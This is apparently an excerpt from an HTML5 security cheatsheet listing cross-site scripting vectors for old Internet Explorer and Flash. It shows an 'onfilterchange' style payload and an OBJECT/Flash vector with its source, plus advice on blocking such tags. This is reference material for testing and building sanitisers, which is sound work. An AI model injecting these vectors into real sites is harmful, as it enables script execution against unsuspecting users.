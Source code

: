 *   xss

*   javascript
*   src
*   safari
*   chrome
*   opera
*   firefox
*   internet explorer

reporter：.mario

### JavaScript execution via IE filters and onfilterchange#70test

In some situations it's possible to trigger a filterchange event by using just one filter as the example shows. Also the short filter notation is being used which is supported by all IE versions despite the information in the documentation. In compatibility mode to IE8+ you can use the property "-ms-filter".

```
<div style=width:1px;filter:glow onfilterchange=alert(1)>x</div> 
```

*   internet explorer 6.0
*   internet explorer 9.0

*   xss

*   javascript
*   filter
*   css
*   style
*   onfilterchange
*   internet explorer

*   [`msdn.microsoft.com/en-us/library/ms532847%28VS.85%29.aspx`](http://msdn.microsoft.com/en-us/library/ms532847%28VS.85%29.aspx)

*   [`msdn.microsoft.com/en-us/library/ie/hh801215(v=vs.85).aspx`](http://msdn.microsoft.com/en-us/library/ie/hh801215(v=vs.85).aspx)

reporter：.mario

### <OBJECT> tag and Flash files executing JavaScript#79test

<OBJECT> tags directly including Flash files via the "data" attribute - allowing execution of JavaScript and more without user interaction.

```
<object allowscriptaccess="always" data="test.swf"></object> 
```

Make sure users cannot control the "src" and "data" attribute values of <OBJECT> tags - or better don't whitelist <OBJECT> tags in user submitted markup at all.

```
class XSS {public static function main() { flash.Lib.getURL(new flash.net.URLRequest(flash.Lib._root.url||"javascript:alert(1)"),flash.Lib._root.name||"_top"); }}crossdomain: 1path: [`html5sec.org/test.swf`](http://html5sec.org/test.swf)name: test.swf 
```
